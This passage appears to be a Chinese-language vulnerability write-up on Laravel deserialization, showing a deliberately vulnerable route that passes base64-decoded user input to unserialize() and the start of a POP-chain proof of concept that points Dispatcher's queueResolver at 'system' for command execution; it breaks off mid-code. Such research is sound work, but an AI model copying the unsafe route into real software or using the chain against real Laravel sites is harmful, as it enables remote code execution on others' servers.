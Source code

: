 # 环境搭建

直接使用打包好的漏洞环境: https://share.weiyun.com/UZyGDHAC

修改routes/web.php，添加反序列化路由

```
<?php

use Illuminate\Support\Facades\Route;

/*
|--------------------------------------------------------------------------
| Web Routes
|--------------------------------------------------------------------------
|
| Here is where you can register web routes for your application. These
| routes are loaded by the RouteServiceProvider within a group which
| contains the "web" middleware group. Now create something great!
|
*/

//Route::get('/', function () {
//    return view('welcome');
//});

Route::get('/', function (\Illuminate\Http\Request $request) {

    $vuln = base64_decode($request->input("vuln"));
    unserialize($vuln);
    return "Hello DawnT0wn";
});
```

# POP1

## 漏洞复现

POC如下

```
<?php

namespace Illuminate\Contracts\Queue {

    interface ShouldQueue
    {
    }
}

namespace Illuminate\Bus {

    class Dispatcher
    {
        protected $container;
        protected $pipeline;
        protected $pipes = [];
        protected $handlers = [];
        protected $queueResolver;
        function __construct()
        {
            $this->queueResolver = "system";
        }
```